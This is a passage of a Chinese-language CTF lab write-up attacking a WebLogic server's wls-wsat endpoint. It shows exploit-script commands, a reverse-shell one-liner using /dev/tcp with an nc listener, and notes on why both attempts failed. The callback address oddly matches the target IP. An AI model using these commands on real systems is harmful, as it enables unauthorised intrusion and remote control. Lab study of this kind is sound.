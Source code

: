 **执行结果分析**:

```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 manual_exploit.py http://10.37.133.3:7001 "find / -name '*flag*' 2>/dev/null > /u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_user/console/console.war/flag_result.txt"

[*] 攻击目标: http://10.37.133.3:7001/wls-wsat/CoordinatorPortType
[*] 执行命令: find / -name '*flag*' 2>/dev/null > /u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_user/console/console.war/flag_result.txt
[+] HTTP状态码: 500
[+] 响应长度: 5287 字节
[+] 可能攻击成功 (HTTP 500通常表示反序列化触发)
                                                                                                                                                 
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ curl http://10.37.133.3:7001/console/flag_result.txt

<html><head><title>302 Moved Temporarily</title></head>
<body bgcolor="#FFFFFF">
<p>This document you requested has moved temporarily.</p>
<p>It's now at <a href="http://10.37.133.3:7001/console/login/LoginForm.jsp">http://10.37.133.3:7001/console/login/LoginForm.jsp</a>.</p>
</body></html>
```

**❌ 方法一失败原因**:

- WebLogic控制台需要认证，返回302重定向到登录页面
- 写入的文件无法通过Web直接访问

**方法二：使用反向shell获取输出**

```bash
# 在攻击机上监听端口
nc -lvnp 4444

# 执行反向shell命令
python3 manual_exploit.py http://10.37.133.3:7001 "bash -i >& /dev/tcp/10.37.133.3/4444 0>&1"
```

**执行结果**:

```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ nc -lvnp 4444

listening on [any] 4444 ...
^C
```

**❌ 方法二失败原因**:

- 反向shell连接未成功建立
- 可能是网络防火墙阻止了出站连接
- 或者容器网络配置限制了反向连接

